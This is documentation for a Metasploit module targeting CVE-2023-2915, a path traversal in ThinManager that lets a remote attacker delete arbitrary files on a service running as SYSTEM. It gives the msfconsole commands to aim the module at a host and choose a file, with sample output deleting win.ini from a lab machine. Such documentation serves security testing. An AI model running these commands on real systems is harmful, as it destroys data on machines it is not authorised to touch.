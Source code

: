 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.1.0 (CVE-2023-2915) to delete an arbitrary file from the
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.1.0 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/thinmanager_traversal_delete
msf6 auxiliary(gather/thinmanager_traversal_delete) > set RHOSTS <IP>
msf6 auxiliary(gather/thinmanager_traversal_delete) > set FILE <file to delete>
msf6 auxiliary(gather/thinmanager_traversal_delete) > run
```

This should delete the file as specified through FILE from the remote server.

## Options

### FILE
The file to delete from the remote server.

## Scenarios

Running the exploit against ThinManager v13.0.1 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(gather/thinmanager_traversal_delete) > run
[*] Running module against 192.168.137.229

[*] 192.168.137.229:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.229:2031 - The service is running, but could not be validated.
[*] 192.168.137.229:2031 - Sending handshake...
[*] 192.168.137.229:2031 - Received handshake response.
[*] 192.168.137.229:2031 - Deleting /Windows/win.ini from 192.168.137.229
[+] 192.168.137.229:2031 - Received response from target.
[*] Auxiliary module execution completed
```
